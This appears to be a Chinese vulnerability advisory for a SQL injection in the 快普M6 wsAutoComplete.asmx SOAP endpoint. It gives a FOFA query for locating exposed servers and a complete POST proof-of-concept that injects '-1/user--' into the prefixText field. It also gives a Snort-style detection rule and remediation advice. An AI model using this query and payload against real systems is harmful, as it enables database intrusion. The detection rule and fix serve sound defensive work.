

# 快普M6 wsAutoComplete.asmx 存在SQL注入漏洞

快普M6 wsAutoComplete.asmx 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

快普M6

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="Resource/JavaScript/jKPM6.DateTime.js"

POC/EXP：

```
POST /WebService/wsAutoComplete.asmx HTTP/1.1
Host:127.0.0.1
Content-Type: application/soap+xml;charset=UTF-8;action="http://tempuri.org/GetAccountTitleList"

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
   <soap:Header/>
   <soap:Body>
      <tem:GetAccountTitleList>
         <!--Optional:-->
         <tem:prefixText>'-1/user--</tem:prefixText>
         <tem:count>1</tem:count>
      </tem:GetAccountTitleList>
   </soap:Body>
</soap:Envelope>
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"快普M6 - /WebService/wsAutoComplete.asmx GetAccountTitleList prefixText SQL注入";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/WebService/wsAutoComplete.asmx";
        fast_pattern;
    http.content_type; content:"application/soap+xml";
    http.request_body;
        content:"GetAccountTitleList"; nocase;
        content:"prefixText"; distance:0; nocase;
        content:"'-1/user--"; distance:0; nocase;
        content:"count"; distance:0; nocase;
    metadata:
        service http,
        affected_product "快普M6",
        vulnerability_type "SQL Injection (SOAP / prefixText)",
        severity "high";
    classtype:web-application-attack;
    sid:1000767;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
